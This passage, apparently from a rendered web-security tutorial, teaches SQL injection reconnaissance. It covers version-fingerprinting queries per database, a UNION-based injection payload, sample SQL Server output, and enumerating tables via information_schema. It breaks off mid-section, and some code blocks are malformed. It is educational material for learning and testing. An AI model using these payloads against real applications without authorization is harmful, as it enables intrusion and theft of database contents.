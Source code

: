 # Querying the Database Type and Version

You can potentially identify both the **database type and version** by injecting provider-specific queries to see which ones work.

---

## Common Queries to Determine Database Version

| Database Type      | Query                         |
|--------------------|-------------------------------|
| Microsoft, MySQL   | `SELECT @@version`            |
| Oracle             | `SELECT * FROM v$version`     |
| PostgreSQL         | `SELECT version()`            |

---

## Example: UNION-Based Injection

A possible injection payload:

```sql
' UNION SELECT @@version--
If successful, this might return version information. For example:

pgsql
Copy
Edit
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
Mar 18 2018 09:11:49
Copyright (c) Microsoft Corporation
Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)
This confirms that the database is Microsoft SQL Server, and reveals detailed version and system information.
```

# Listing the Contents of the Database

Most database types (except Oracle) have a set of views called the **information schema**. This schema provides metadata about the database.

---

## Listing Tables

You can query `information_schema.tables` to list all the tables in the database:

```sql
SELECT * FROM information_schema.tables
Sample Output
TABLE_CATALOG	TABLE_SCHEMA	TABLE_NAME	TABLE_TYPE
MyDatabase	dbo	Products	BASE TABLE
MyDatabase	dbo	Users	BASE TABLE
MyDatabase	dbo	Feedback	BASE TABLE

This output indicates that the database contains three tables: Products, Users, and Feedback.

Listing Columns in a Specific Table
To list columns of a specific table (e.g., Users), query information_schema.columns with a filter on the table name:

```
